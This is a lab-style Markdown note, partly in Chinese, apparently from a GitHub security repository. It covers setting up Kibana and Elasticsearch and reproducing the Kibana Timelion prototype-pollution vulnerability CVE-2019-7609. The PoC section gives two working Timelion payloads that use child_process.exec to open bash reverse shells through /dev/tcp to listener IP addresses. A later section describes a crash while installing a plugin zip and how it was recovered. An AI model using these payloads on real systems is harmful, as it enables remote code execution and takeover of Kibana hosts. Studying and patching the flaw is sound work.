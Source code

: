 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


但是漏洞触发，还需要点击"Canvas"。但是某些版本，比如6.2.4并没有"Canvas"功能。


### Rescue
![image](https://user-images.githubusercontent.com/30398606/160997528-7ae1dc1d-8df6-4a32-a6e8-8e47d0e0d1a9.png)

![image](https://user-images.githubusercontent.com/30398606/160998219-fb2d6312-ced4-4912-b3df-2ead6af97ccb.png)

确实下载了test.zip，但是安装出错，导致kibana退出了。如果是实战中，就悲剧了，把有漏洞的kibana给关了，真的无法利用了。
![image](https://user-images.githubusercontent.com/30398606/160999181-696f238a-adca-44bb-a813-2aca8dcb574b.png)

原来是没有把index.js打包进去。

安装失败参考这个构造zip包：
https://github.com/outbrain/ob-kb-percent/issues/7

![image](https://user-images.githubusercontent.com/30398606/161001182-62faa5e8-6d69-4464-8367-c27aecbdbe9d.png)

确保把package.json和index.js都打包进去。
![image](https://user-images.githubusercontent.com/30398606/161003176-a8df6af8-4d10-4553-ad4e-a2f32325b9e0.png)

虽然报这个错，但是插件已经安装成功了。
![image](https://user-images.githubusercontent.com/30398606/161003301-b4029b69-54d8-45cf-8918-2ea3f0ad511d.png)


## Ref
- https://github.com/mpgn/CVE-2019-7609
- https://github.com/mpgn/CVE-2018-17246
- https://www.synacktiv.com/en/publications/pwning-an-outdated-kibana-with-not-so-sad-vulnerabilities.html
- https://twitter.com/chybeta/status/1185860595620311042
